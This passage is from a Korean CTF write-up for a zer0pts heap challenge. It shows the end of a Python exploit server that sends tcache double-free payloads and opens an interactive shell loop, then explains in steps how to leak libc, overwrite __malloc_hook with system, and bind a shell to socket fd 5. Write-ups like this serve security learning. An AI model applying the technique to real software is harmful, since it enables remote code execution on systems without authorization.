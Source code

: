 ```python
                            elif b'/1' in msg: # tcache double free : size 0x20
                                    conn.sendall(payload3)
    
                            else: # unused
                                    conn.sendall(b'content-length: ' + str(system).encode() + b'\r\n\0\r\n!CONTENT!')
                                    # fianl
    
                    while True: #interactive mode
                            # ls -al
                            # cat woa_u_got_flag.txt 0>&5 1>&5
                            g_con.sendall(input())
                            msg = g_con.recv(1024)
                            print(msg.decode())
                    conn.close()
    
    if __name__ == '__main__':
            p = 9092
            while True:
                    try:
                            print(p)
                            run_server('', p)
                            break
                    except KeyboardInterrupt:
                            break
                    except:
                            p += 1
```
익스플로잇의 흐름은 앞서 살펴봤듯, 릭의 획득과 원격 쉘의 획득 두 가지 과정으로 나뉜다. 실제 익스플로잇에서 사용된 주목할 만 한 사항은 아래와 같다.
* 1. **tcache**에 들어가는 조금 큰 사이즈 청크를 8번 free해 **libc main arena** 의 주소가 청크에 적히게 한다.
* 2. 해당 청크에 **location** 으로 8바이트 문자열("/xxxxxxx") 을 할당시킨다. 그러면 청크의 8바이트 뒤의  **libc main arena** 가 손상을 받지 않고 다음 번 리퀘스트에 같이 딸려나오게 된다.
* 3. double free 를 이용해 arbitary write를 수행한다. 이 때, 청크에 내용을 쓰기 위해서는 **loction** 을 이용해야 하는데, **location** 의 첫 바이트는 반드시 **/** 이어야 한다. 따라서 arbitary write 의 대상이 되는 주소의 가장 낮은 바이트는 0x2f 이어야만 하고, 이것과 가장 가까운, 가장 낮은 바이트가 0x30인 **__malloc_hook**을 **system**으로 덮는다.
* 4. 그 전에, 실행할 명령어가 적힌 청크 역시 libc 의 쓰기 가능 영역에 임의로 할당한다.
* 5. 명령어가 적힌 주소 사이즈의 청크를 **malloc** 해 해당 명령어를 부른다.


주의해야 할 점은, 프로그램과 서버는 **interactive** 하지 않다는 것이다. 따라서 서버와 이미 열려있는 소켓에 쉘을 바인딩 해주어야 정상적으로 명령어를 실행하고 그 결과를 볼 수 있다. 서버에 열려 있는 소켓 fd는 3부터 시작해서 찍어 본 결과 5로 확인되었다.

    zer0pts{w0w_u_m4d3_17_1nt3r4ct1v3}
